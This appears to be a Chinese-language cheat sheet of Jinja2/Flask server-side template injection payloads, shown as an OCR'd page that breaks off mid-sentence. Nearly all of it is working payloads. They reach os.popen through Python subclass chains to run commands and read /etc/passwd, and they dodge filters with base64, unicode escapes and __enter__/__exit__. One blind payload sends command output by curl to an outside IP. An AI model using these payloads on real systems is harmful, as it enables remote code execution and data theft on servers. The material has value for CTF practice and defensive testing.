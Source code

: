 ```javascript
{{().__getattribute__('__claAss__'.replace("A","")).__bases__[0].__subclasses__()[376].__init__.__globals__['popen']('whoami').read()}}
```

- decode绕过(python2)：

```javascript
{{().__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
```

过滤init，可以用`__enter__`或`__exit__`替代

```javascript
{{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}

{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
```

过滤 config，我们通常会用`{{config}}`获取当前设置，如果被过滤了可以使用以下的payload绕过

```javascript
{{self}} ⇒ <TemplateReference None>
{{self.__dict__._TemplateReference__context}}
```

利用unicode编码的方法，绕过关键字过滤

```javascript
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
#等同于：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

**过滤双大括号:**

使用外带数据:

用{%%}替代了{{}}，使用判断语句进行dns外带数据

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d `ls /|grep flag`') %}1{% endif %}
```

print标记:

我们上面之所以要dnslog外带数据以及使用盲注，是因为用{%%}会没有回显，这里的话可以使用print来做一个标记使得他有回显，比如{%print config%}，payload如下
